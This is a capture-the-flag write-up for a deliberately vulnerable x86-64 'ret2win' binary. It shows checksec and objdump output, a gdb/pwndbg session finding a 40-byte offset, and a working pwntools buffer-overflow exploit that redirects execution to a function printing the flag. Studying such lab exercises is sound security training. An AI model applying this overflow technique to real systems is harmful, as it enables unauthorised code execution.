 First of all, use checksec to get some binary information
```shell
[marco@marco-pc Downloads]$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a871295b6234edb261710bcc73a8c03e3c0f601d, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols     No	0		3	ret2win

```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table
```shell
objdump -t ret2win
...
00000000004007b5 l     F .text	000000000000005c              pwnme
0000000000400811 l     F .text	0000000000000020              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, print some strings and get an input;
- ret2win perfom a system comand "cat flag.txt"
```gdb
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x0000000000400811 <+0>:	push   rbp
   0x0000000000400812 <+1>:	mov    rbp,rsp
   0x0000000000400815 <+4>:	mov    edi,0x4009e0
   0x000000000040081a <+9>:	mov    eax,0x0
   0x000000000040081f <+14>:	call   0x4005f0 <printf@plt>
   0x0000000000400824 <+19>:	mov    edi,0x4009fd
   0x0000000000400829 <+24>:	call   0x4005e0 <system@plt>
   0x000000000040082e <+29>:	nop
   0x000000000040082f <+30>:	pop    rbp
   0x0000000000400830 <+31>:	ret    
End of assembler dump.
pwndbg> x/s 0x4009fd
0x4009fd:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the RIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until RIP
```gdb
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...
For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

RBP  0x6161616a61616169 ('iaaajaaa')

...

pwndbg> cyclic -l 'iaaa'
32
```

32 byte to RBP ( +8 to RIP = 40 ). Final exploit:
```python
#!/usr/bin/python3

import struct
from pwn import *

ret2win_addr = 0x0000000000400811

shellcode = ("A"*40).encode()
shellcode += struct.pack("<Q", ret2win_addr)
 
p = process('./ret2win')
 
p.recvuntil('>')
p.sendline(shellcode)
print(p.recvall())
```
